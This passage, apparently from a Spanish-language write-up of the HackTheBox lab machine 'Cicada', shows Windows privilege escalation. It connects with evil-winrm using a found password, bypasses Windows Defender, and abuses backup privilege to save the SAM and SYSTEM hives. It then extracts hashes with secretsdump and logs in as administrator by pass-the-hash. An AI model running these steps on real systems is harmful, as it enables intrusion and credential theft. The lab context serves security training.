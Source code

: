 Vemos también que está la bandera de root, pero no tenemos permisos suficientes para ver el archivo. Para tener una consola de forma más cómoda del sistema podemos usar la herramienta evilwin-rm.

```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![](/assets/images/Imagenes/Pasted image 20241011201847.png)

Una vez dentro para ver los permisos que tenemos debemos hacer bypass a windows defender con *Bypass-4MSI*. Una vez terminado la implementación ejecutamos el comando:

```bash
whoami /priv
```

![](/assets/images/Imagenes/Pasted image 20241011202119.png)

Vemos que emily tiene permisos para realizar una copia de seguridad, con lo que podríamos copiar el ficheros y carpetas del sistema donde se guarden datos para escalar, como SAM en nuestra máquina.

Para ello podemos dirigirnos al directorio C:\, donde crearemos el directorio *Temp* y ahí realizaremos las copias:

![](/assets/images/Imagenes/Pasted image 20241011203122.png)

```bash
reg save hklm\sam C:\temp\sam

reg save hklm\system C:\temp\system
```

![](/assets/images/Imagenes/Pasted image 20241011203850.png)

Una vez descargado debemos pasar primero los dos archivos para juntar cada usuario con su respectiva contraseña, como passwd y shadow enlinux. Para ello podemos usar **secretsdump**:

```bash
simpacket-ecretsdump -sam sam -system system local
```

![](/assets/images/Imagenes/Pasted image 20241011210115.png)

Con este hash de administrador (la última parte) podemos intentar realizar un ataque *pass the hass*, introduciendo el hash de la contraseña del administrador.

```bash
evil-winrm -i cicada.htb -u administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![](/assets/images/Imagenes/Pasted image 20241011210745.png)

Con esto ya tendremos acceso root a la máquina, estando la bandera de este en su desktop.

![](/assets/images/Imagenes/Pasted image 20241011210919.png)